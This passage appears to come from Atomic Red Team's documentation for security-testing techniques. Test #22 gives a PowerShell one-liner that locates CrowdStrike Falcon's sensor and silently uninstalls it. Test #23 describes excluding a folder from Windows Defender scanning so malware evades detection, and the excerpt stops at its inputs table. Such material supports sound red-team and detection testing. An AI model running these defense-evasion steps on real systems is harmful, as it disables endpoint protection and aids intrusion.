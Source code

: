 ## Atomic Test #22 - Uninstall Crowdstrike Falcon on Windows
Uninstall Crowdstrike Falcon. If the WindowsSensor.exe path is not provided as an argument we need to search for it. Since the executable is located in a folder named with a random guid we need to identify it before invoking the uninstaller.

**Supported Platforms:** Windows


**auto_generated_guid:** b32b1ccf-f7c1-49bc-9ddd-7d7466a7b297





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| falcond_path | The Crowdstrike Windows Sensor path. The Guid always changes. | path | C:&#92;ProgramData&#92;Package Cache&#92;{7489ba93-b668-447f-8401-7e57a6fe538d}&#92;WindowsSensor.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (Test-Path "#{falcond_path}") {. "#{falcond_path}" /repair /uninstall /quiet } else { Get-ChildItem -Path "C:\ProgramData\Package Cache" -Include "WindowsSensor.exe" -Recurse | % { $sig=$(Get-AuthenticodeSignature -FilePath $_.FullName); if ($sig.Status -eq "Valid" -and $sig.SignerCertificate.DnsNameList -eq "CrowdStrike, Inc.") { . "$_" /repair /uninstall /quiet; break;}}}
```






<br/>
<br/>

## Atomic Test #23 - Tamper with Windows Defender Evade Scanning -Folder
Malware can exclude a specific path from being scanned and evading detection. 
Upon successul execution, the file provided should be on the list of excluded path. 
To check the exclusion list using poweshell (Get-MpPreference).ExclusionPath

**Supported Platforms:** Windows


**auto_generated_guid:** 0b19f4ee-de90-4059-88cb-63c800c683ed





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| excluded_folder | This folder will be excluded from scanning | path | C:&#92;Temp|
